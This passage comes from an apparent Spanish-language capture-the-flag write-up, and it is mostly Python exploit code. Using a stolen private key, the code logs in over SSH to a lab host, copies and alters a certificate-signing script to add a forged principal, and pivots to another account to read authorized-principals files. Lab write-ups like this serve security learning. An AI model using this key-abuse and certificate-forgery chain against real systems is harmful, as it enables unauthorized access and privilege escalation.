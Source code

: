 ```python3
	client.close()

username,password = get_cred(zip_file)
make_cert(username, password)
```
Con la clave privada creada, en la función **get_auth_principals** accede como el usuario **zzinter** y con la función **modify_file** modifica el contenido del nuevo script, para luego subirlo y ejecutarlo creando el certificado a nombre del usuario zzinter
```python3
def modify_file(new_supported):

	file_path = "sign_key_api_new.sh"

	with open(file_path, "r") as file:
		lines = file.readlines()

	# Recorre el contenido linea por linea, enumerandolas
	for x,line in enumerate(lines):
		if line.startswith("supported_principals="): # Si la linea empieza por "supported_principals="
			start = line.find('"') + 1 # Busca la posición de la primera comilla
			end = line.rfind('"') # Busca la posición de la ultima comilla, empezando desde el final

			principals = line[start:end] # Guarda el contenido que hay entre las dos posiciones, es decir, entre las comillas ["]

			if "zzinter_temp" not in principals: # Si en el contenido NO se encuentra "zzinter_temp"
				principals += ",zzinter_temp" # Es añadido

			lines[x] = "supported_principals=\"%s\"\n" % principals # El contenido de la linea numero X es modificada

			break

def get_auth_principals():
	# Cargar la clave privada convertida
	priv_key = paramiko.RSAKey.from_private_key_file("id_rsa")

	# Configura el cliente SSH
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	# Accede via SSH utilizando la clave privada previamente conseguida
	client.connect("10.10.11.27", username="zzinter", pkey=priv_key)

	time.sleep(1)
	# el output del comando ejecutado para crear el certificado es guardado en un archivo 
	client.exec_command('bash sign_key_api.sh .ssh/id_rsa.pub test support > cert')

	client.exec_command('chmod 600 cert .ssh/id_rsa')

	stdin, stdout, stderr = client.exec_command('cat sign_key_api.sh')
	# Se guarda el contenido del script que crea los certificados
	content = stdout.read().decode()
	# Para luego crear un mismo archivo en local con el mismo contenido
	with open("sign_key_api_new.sh", "w") as file:
		file.write(content)
	# Accede como el usuario support para poder conseguir el nombre del usuario zzinter y guardarlo
	stdin, stdout, stderr = client.exec_command('ssh -p 2222 -o StrictHostKeyChecking=no -o CertificateFile=cert -i .ssh/id_rsa support@172.223.0.1 cat /etc/ssh/auth_principals/zzinter')

```